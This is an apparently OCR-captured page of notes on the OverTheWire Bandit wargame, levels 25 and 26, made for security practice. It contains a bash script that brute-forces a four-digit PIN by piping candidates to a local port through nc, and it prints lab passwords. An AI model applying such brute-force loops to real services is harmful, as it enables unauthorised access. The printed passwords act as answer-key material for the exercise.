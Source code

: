 ## Bandit 25

Create a directory in tmp named band

Create a file name [pass2.sh](http://pass2.sh) in the band directory

```jsx
nano pass2.sh
```

write the following code

```
#!/bin/bash
password24=UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ

for i in {0000..9999}
  do
    echo $password24 $i >> passlist.txt
  done
```

The code generates a file named passlist.txt

Feed the passlist.txt for brute force password cracking in the port 30002

```jsx
nc localhost 30002 < passlist.txt
password : uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG
```

## Bandit 26

more → provides a filter for paging                                                 less consider more useful than more for viewing a document

vi → text editor for plain text

id → print the id of the current user

### /bin/bash information??

[(#!/bin/bash ) What exactly is this ?](https://medium.com/@codingmaths/bin-bash-what-exactly-is-this-95fc8db817bf#:~:text=%2Fbin%2Fbash%20is%20the%20most,well%20developed%20and%20better%20syntax)

## To check which shell you are using

[https://www.cyberciti.biz/tips/how-do-i-find-out-what-shell-im-using.html#:~:text=echo%20%240%20%E2%80%93%20Another%20reliable%20and,you%20open%20a%20terminal%20window](https://www.cyberciti.biz/tips/how-do-i-find-out-what-shell-im-using.html#:~:text=echo%20%240%20%E2%80%93%20Another%20reliable%20and,you%20open%20a%20terminal%20window)

### Steps for finding password

first find the shell related to the bandit 26
